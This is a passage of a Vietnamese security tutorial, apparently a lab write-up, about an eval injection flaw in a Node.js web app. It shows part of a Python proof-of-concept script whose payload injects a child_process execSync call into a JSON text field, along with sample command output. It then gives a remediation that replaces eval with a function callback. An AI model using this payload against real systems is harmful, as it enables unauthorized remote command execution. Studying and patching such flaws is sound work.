 ```python
        "text": "' + require('child_process').execSync('" + user_input + "').toString() + `'`, statusCode: 403})//"
    }

    # Gửi yêu cầu POST đến API và nhận phản hồi
    headers = {"Content-Type": "application/json", "Authorization": f"Bearer {token}"}
    response = requests.post(qr_endpoint, headers=headers, data=json.dumps(payload))

    # Phân tích phản hồi và in kết quả
    output = response.json()['message'].split("The input \"")[1][:-2]
    print(output)
```

### 8. **Kiểm Tra và Chạy Script**
Chạy script và thử các lệnh khác nhau để kiểm tra kết quả:

```bash
python3 poc.py
> ls
node_modules
package-lock.json
package.json
src
> ls -la src
total 24
drwxr-xr-x  6 21y4d  staff  192 XXX  2 17:19 .
```

### 9. **Tùy Chỉnh và Mở Rộng**
Để cải thiện thêm, bạn có thể thêm các kiểm tra an toàn, xử lý lỗi hoặc hỗ trợ lịch sử đầu vào (ví dụ, sử dụng các phím mũi tên để sử dụng lại các lệnh trước).

---

# 16. Patching & Remediation: Giải Pháp Bảo Mật và Khắc Phục Lỗ Hổng

Trong phần này, chúng ta sẽ xem xét cách sửa chữa lỗ hổng bảo mật đã phát hiện trong ứng dụng web thông qua `eval injection`. Mặc dù ứng dụng này được lập trình khá an toàn, chúng ta vẫn cần tìm giải pháp thay thế cho việc sử dụng `eval`, cũng như triển khai các biện pháp bảo mật bổ sung.

### **1. Giải Pháp Thay Thế cho `eval`**

#### **1.1. Thay Thế `eval` Bằng Hàm**
Thay vì sử dụng `eval` để thực thi mã JavaScript, chúng ta có thể thay thế `onError` là một **hàm** thay vì một chuỗi. Điều này sẽ giúp ngăn ngừa việc tiêm mã độc:

```javascript
// Thay thế eval(onError) bằng việc gọi onError như một hàm
!validateString(text, function () {
    throw {
        message: role === "admin"
            ? `The input "${text}" contains the following invalid characters: [${text.match(/['"`;]/g)}]`
            : "Invalid input",
        statusCode: 403,
    };
});
```
